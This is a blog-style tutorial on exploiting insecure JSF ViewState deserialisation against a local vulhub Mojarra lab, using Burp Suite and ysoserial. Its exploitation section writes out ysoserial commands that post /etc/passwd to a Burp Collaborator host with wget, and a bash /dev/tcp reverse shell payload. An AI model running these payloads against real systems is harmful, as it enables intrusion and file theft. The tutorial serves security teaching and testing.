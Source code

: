 ```yaml
---
layout: post
title: Demystifying Insecure Deserialisation on JSF Application
date: 2021-05-08
summary: JSF Viewstate Deserialisation
categories: Web Security
tags: [Bugs, Write-Ups, Web Security]
---
```


Hi Everyone,

I'm back with an another blog on interesting vulnerability **Insecure Deserialisation on JSF Applications** which occurs due to the **misconfigured viewstate**

<p align="center">
  <img src="/images/deserialisation/desc1.png">
</p>

<p align="center"> <strong>Difference between Serialization & Deserialization:</strong></p>

* Serialization is the process of taking an object and translating it into plaintext. This plaintext can then be encrypted or signed, as well as simply used the way it is.

* The **reverse** process is called **deserialization**, i.e. when the plaintext is converted back to an object.

<p align="center">
  <img src="/images/deserialisation/desc2.png">
</p>

<p align="center"> <strong>ViewState</strong></p>

* The purpose of “ViewState” is to memorize the state of the user, even after numerous HTTP queries (stateless protocol).
* Different Types of View-state
  1. .Net - ``___Viewstate``
  2. JSF - ``javax.faces.Viewstate``    

<p align="center"> <strong>Flow of JSF ViewState</strong></p>

* The "ViewState" of a page is by default, stored in a hidden form field in the web page named **javax.faces.ViewState**.
* ViewState starts with **H4sIAAAA**, which represent the Base64Gzip.

<p align="center">
  <img src="/images/deserialisation/desc3.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc4.png">
</p>

<p align="center"> <strong>Layers in JSF Viewstate</strong></p>

<p align="center">
  <img src="/images/deserialisation/desc5.png">
</p>

<p align="center"><strong>Environment Setup</strong></p>

Step 1: Create a Docker Compose file using the following command 

`docker-compose.yml`

```bash
version: '2'
services:
  web:
    image: vulhub/mojarra:2.1.28
    ports:
      - "8080:8080"
```

Step 2: Execute the following command to start a JSF application which using JDK7u21 and Mojarra 2.1.28

```bash
docker-compose up -d
```
<p align="center">
  <img src="/images/deserialisation/desc6.png">
</p>

Step 3: After the application is started, visit http://127.0.0.1:8080 to see the demo page.

<p align="center">
  <img src="/images/deserialisation/desc7.png">
</p>

<p align="center"><strong>Decoding JSF Viewstate</strong></p>

Step 1: Open the Demo URL http://127.0.0.1:8080 , give a sample input and intercept the request using Client-Side Proxy such as Burpsuite as shown below.

<p align="center">
  <img src="/images/deserialisation/desc8.png">
</p>

Step 2: In the request body, it can be observed that the application uses JSF Viewstate format.

<p align="center">
  <img src="/images/deserialisation/desc9.png">
</p>

Step 3: Select the **javax.faces.ViewState** values , right click & send it to **Decoder** as shown below.

<p align="center">
  <img src="/images/deserialisation/desc10.png">
</p>

Step 4: First do a **URL Decode** -> **Base64 Decode** -> **GZip Decode**.

<p align="center">
  <img src="/images/deserialisation/desc11.png">
</p>

Step 5: The final output gives some information about the java utils and components used in the application.

<p align="center">
  <img src="/images/deserialisation/desc12.png">
</p>

<p align="center"><strong>Burpsuite Extenders & Tools Configuration</strong></p>

* Install **Java Deserialization Scanner** from **Extenders** -> **BApp Store**.

<p align="center">
  <img src="/images/deserialisation/desc13.png">
</p>

* Navigate to the **Deserialization Scanner** -> **Configurations** and configure the ysoserial.

<p align="center">
  <img src="/images/deserialisation/desc14.png">
</p>

Note: ysoserial can be downloaded from <https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar>

* We need to find the payload type in-order to use the ysoserial tool.

<p align="center"><strong>Vulnerability Detection</strong></p>

Step 1: Intercept the request of the application and send the request to **DS - Manual Testing** .

<p align="center">
  <img src="/images/deserialisation/desc15.png">
</p>

Step 2: Select the **javax.faces.ViewState** values and **Set Insertion Point**.

<p align="center">
  <img src="/images/deserialisation/desc16.png">
</p>

Step 3: Choose Attack (Base64GZip) as shown below.

<p align="center">
  <img src="/images/deserialisation/desc17.png">
</p>

Step 4: If the viewstate is vulnerable, it will show **Potentially VULNERABLE!!!**.

<p align="center">
  <img src="/images/deserialisation/desc18.png">
</p>

Step 5: Now we got the payload type which is **Jdk7u21** 

<p align="center"><strong>Exploitation Phase</strong></p>

NOTE: There are two ways to Exploit a JSF Viewstate Deserialisation

* Out-Of-Band 
* Reverse Shell

<p align="center"><strong>Exploitation using Deserialization Scanner</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Using the following command to perform a **OOB Deserialisation** and Read Internal Files of the application

```bash
Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net"
```

<p align="center">
  <img src="/images/deserialisation/desc19.png">
</p>

<p align="center">
  <img src="/images/deserialisation/desc20.png">
</p>

<p align="center"><strong>Manual Payload Creation using Ysoserial</strong></p>

**Ysoserial Syntax** 

```bash
java -jar ysoserial-[version]-all.jar [payload] '[command]'
```
**Payload Command**

```bash
java -jar ysoserial-master-SNAPSHOT.jar Jdk7u21 "wget --post-file /etc/passwd  http://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.burpcollaborator.net" | gzip | base64 -w 0
```
 
<p align="center">
  <img src="/images/deserialisation/descc21.png">
</p>

* Replace the **javax.faces.ViewState** value with the Ysoserial generated payload and **URL Encode** it.

<p align="center">
  <img src="/images/deserialisation/descc22.png">
</p>

* Click on Go and Observe the response in Burp Collaborator.

<p align="center">
  <img src="/images/deserialisation/desc23.png">
</p>

<p align="center"><strong>Establishing a Stable Reverse Shell</strong></p>

Step 1: Send the vulnerable request to **DS - Exploitation Tab**

Step 2: Use the following Bash Reverse Shell command to gain a **Reverse Shell**.

```bash
Jdk7u21 "/bin/bash -c /bin/bash${IFS}-i>&/dev/tcp/ipaddress/1337<&1"
```
* bash -i >& - Invokes bash with an **“interactive”** option.
* /dev/tcp/ipaddress/1337 - Redirects that session to a tcp socket via device file. 
* 0>&1 - Takes standard output, and connects it to standard input.

<p align="center">
  <img src="/images/deserialisation/descc24.png">
</p>

<p align="center">
  <img src="/images/deserialisation/descc25.png">
</p>

<p align="center"> Now we have reached stable Reverse Shell using JSF Viewstate Deserialisation.</p>

<p align="center">
  <img src="https://media.giphy.com/media/l0D76LT6o1jaG2g0M/source.gif">
</p>
